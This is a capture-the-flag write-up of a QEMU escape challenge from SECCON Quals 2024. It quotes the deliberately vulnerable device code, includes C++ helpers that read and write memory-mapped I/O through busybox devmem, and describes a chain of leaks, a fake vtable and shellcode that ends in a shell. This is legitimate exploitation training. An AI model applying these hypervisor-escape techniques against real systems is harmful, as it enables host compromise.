

---
params:
  authors:
    - name: falamous
      social: https://t.me/falamous
      links:
        - name: channel
          link: https://t.me/theinkyvoid
title: "Seccon Quals 2024 - BabyQEMU"
tldr: "simple qemu escape challenge"
date: "2024-11-24"
tags: [pwn]
summary: |
  Given heap offset write and read in custom qemu pcie device obtain qemu escape.
---

# BabyQEMU

After solving a complicated rop challenge on Seccon quals, we came across this deceptively simple challenge, where the goal was to escape qemu through a custom pcie device. I had never solved hypervisor escape challenges prior and really am not a pwn guy, but I had a friend and thought it would be fun.

## Quick summary

We are given a modified qemu version with a custom pcie device that implements memory mapped io. It basically has 2 addresses: data and offset. Writting to offset address will change the offset in the device structure. Reading or writing from data will read or write at the offset from the buffer stored in the device structure. Pretty simple right?

```c
static uint64_t pci_babydev_mmio_read(void *opaque, hwaddr addr, unsigned size) {
	PCIBabyDevState *ms = opaque;
	struct PCIBabyDevReg *reg = ms->reg_mmio;

	debug_printf("addr:%lx, size:%d\n", addr, size);

	switch(addr){
		case MMIO_GET_DATA:
			debug_printf("get_data (%p)\n", &ms->buffer[reg->offset]);
			return *(uint64_t*)&ms->buffer[reg->offset];
	}

	return -1;
}

static void pci_babydev_mmio_write(void *opaque, hwaddr addr, uint64_t val, unsigned size) {
	PCIBabyDevState *ms = opaque;
	struct PCIBabyDevReg *reg = ms->reg_mmio;

	debug_printf("addr:%lx, size:%d, val:%lx\n", addr, size, val);

	switch(addr){
		case MMIO_SET_OFFSET:
			reg->offset = val;
			break;
		case MMIO_SET_OFFSET+4:
			reg->offset |= val << 32;
			break;
		case MMIO_SET_DATA:
			debug_printf("set_data (%p)\n", &ms->buffer[reg->offset]);
			*(uint64_t*)&ms->buffer[reg->offset] = (val & ((1UL << size*8) - 1)) | (*(uint64_t*)&ms->buffer[reg->offset] & ~((1UL << size*8) - 1));
			break;
	}
}
```

## Interfacing with the device

Whats not so simple is actually interfacing with device. At first I tried to write a kernel module (which would have been the optimal solution), I won't bore you with the detail, suffice to say I tried everything and nothing worked. Then searching the wired I found that busybox (which is installed) in qemu has a devmem module that just so happens to allow us to read and write to/from memory mapped io. So I quickly tested that it worked, wrote some helper functions that would execute `busybox devmem`, then wrote more helper functions to write to an offset. I should note that for some reason devmem only allowed me to write 32 bits worth of data, so I also had to write functions to write 64 bit integers.

```c++
#include <cstdint>
#include <cstdio>
#include <iostream>
#include <string>

using namespace std;

const uint64_t MMIO_BASE = 0xfebd2000;
const uint64_t MMIO_DATA = 0xfebd2000 + 8;
const uint64_t MMIO_OFFSET = 0xfebd2000;

uint32_t read_mmio(uintptr_t addr) {
  std::string cmd = format("busybox devmem 0x{:x}", addr);
  FILE *f = popen(cmd.c_str(), "r");

  char buf[64];
  fgets(buf, sizeof(buf), f);
  pclose(f);

  return strtol(buf, NULL, 16);
}

void write_mmio(uintptr_t addr, uint32_t val) {

  std::string cmd = format("busybox devmem 0x{:x} w 0x{:x}", addr, val);
  FILE *f = popen(cmd.c_str(), "r");

  pclose(f);
}

uint32_t read_offset(intptr_t offset) {
  write_mmio(MMIO_OFFSET, offset & 0xffffffff);
  write_mmio(MMIO_OFFSET + 4, offset >> 32);
  return read_mmio(MMIO_DATA);
}

uint64_t read64_offset(intptr_t offset) {
  uint64_t lb = read_offset(offset);
  uint64_t hb = read_offset(offset + 4);

  return lb | (hb << 32);
}

void write_offset(intptr_t offset, uint32_t val) {
  write_mmio(MMIO_OFFSET, offset & 0xffffffff);
  write_mmio(MMIO_OFFSET + 4, offset >> 32);
  write_mmio(MMIO_DATA, val);
}
void write64_offset(intptr_t offset, uint64_t val) {
  write_offset(offset, val & 0xffffffff);
  write_offset(offset + 4, val >> 32);
}
```

## Leaking everything

The very first thing I did was telescope the heap address of the device structure, which yielded a heap and binary leak. Than by calculating the offset of got from buf I was able to leak libc base. Then from libc I was able to leak environ and thus the stack. That was the easy part. Unfortunately qemu had full relro and the stack of the mmio functions was some kind of thread stack. Also the sort of main device structure (separate from the custom part) was located in a strange region, which I was able to leak, but it had a different offset. So after a long time beating my head against a brick wall, it finally broke and I found a way to leak this strange structure pointer: I first leaked the thread stack from the heap and then the structure address from the stack. The reason I was looking for that pointer was that a function was called from a vtable without checking for the vtable region. The vtable itself was ro, but we could construct a custom vtable and point the vtable pointer to it. I also miraculously discovered an rwx region, which I also leak from the heap.



## Solving the challenge

Now all I had to was write shellcode to the rwx region, create a custom vtable pointing to the shellcode and overwrite the vtable in the structure. For some reason qemu kept crashing if I wrote to mmio too many times, so I had to shorten the vtable and the shellcode from reverse shell to `execve("/bin/sh", NULL, NULL)`, but the challenge was solved

## Conclusion

Overall quite a simple challenge, but it took me an unbelievably long time to solve. You can find the exploit [here](exploit.cc).
